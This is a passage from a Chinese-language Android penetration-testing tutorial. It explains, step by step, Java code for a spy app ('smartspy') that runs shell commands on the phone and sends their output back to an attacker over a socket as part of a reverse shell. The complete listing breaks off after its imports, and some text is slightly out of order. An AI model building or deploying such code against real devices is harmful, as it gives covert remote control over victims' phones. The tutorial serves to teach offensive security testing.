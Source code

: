     ```
    Process process = Runtime.getRuntime().exec(new String[]{"/system/bin/sh", "-c", command});
    ```

    *   以下几行将获取上一步的输出，我们在该步骤中执行系统命令。该输出作为输入，该输入放在字符串缓冲区中。因此，在运行以下代码后，执行的命令输出将存储在名为`output`：

    ```
         BufferedReader reader = new BufferedReader(

           new InputStreamReader(process.getInputStream()));
             int read;
             char[] buffer = new char[4096];
             StringBuffer output = new StringBuffer();
             while ((read = reader.read(buffer)) > 0) {
               output.append(buffer, 0, read);
             }
             reader.close();
    ```

    的变量中*   然后，以下行将输出转换为字符串格式的值：

    ```
    String commandoutput = output.toString();
    ```

    *   `process.waitFor()`；是等待命令完成。*   最后，我们正在编写`if`条件来检查`commandoutput`是否有`null`值。如果`commandoutput`变量不是`null`，则会调用一个名为`sendOutput()`的方法，其中会写入将输出发送给攻击者的实现。如下所示：

    ```
      if (commandoutput != null) {

        sendOutput(commandoutput);

      }

      out = null;
    ```****** 

 ******好的现在让我们继续我们留下的编码`getReverseShell()`方法和`sendOutput()`方法的编码。

以下是将输出数据写入攻击者外壳的代码：

```
private void sendOutput(String commandoutput) {

        if (out != null && !out.checkError()) {
            out.println(commandoutput);
            out.flush();
        }

    }
```

至此，我们已经完成了 Java 代码的编写，以实现本节开头定义的目标。

以下是我们在`MainActivity.class`文件中编写的完整代码：

```
package com.androidpentesting.smartspy;
import android.os.Bundle;
import android.support.v7.app.ActionBarActivity;
import android.util.Log;

import java.io.BufferedReader;
import java.io.BufferedWriter;
import java.io.InputStreamReader;
import java.io.OutputStreamWriter;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;

```
